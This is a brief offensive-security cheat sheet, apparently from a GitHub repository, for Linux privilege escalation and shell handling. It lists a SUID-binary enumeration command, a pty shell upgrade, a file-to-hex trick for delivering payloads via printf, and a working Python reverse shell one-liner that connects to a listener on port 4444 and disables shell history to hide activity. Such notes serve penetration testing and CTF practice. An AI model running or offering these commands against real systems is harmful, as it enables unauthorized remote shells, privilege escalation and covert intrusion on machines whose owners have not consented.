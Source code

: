 Generic Linux Starting Points
=============================

Identify & Enumerate
--------------------

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

### suid binaries
```
find / -perm /6000 -type f 2>/dev/null
```

### Upgrade a simple shell to a shell with a pty
python -c 'import pty; pty.spawn("/bin/bash")'

Tricks
------

Convert file to hex for printf:
```
xxd -i file.ext | grep 0x | tr -d '\n' | sed 's/0x/\\x/g;s/[, ]*//g'
```

Python reverse shell with pty:
```
python -c 'import os,pty,socket;s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("127.0.0.1", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'
```
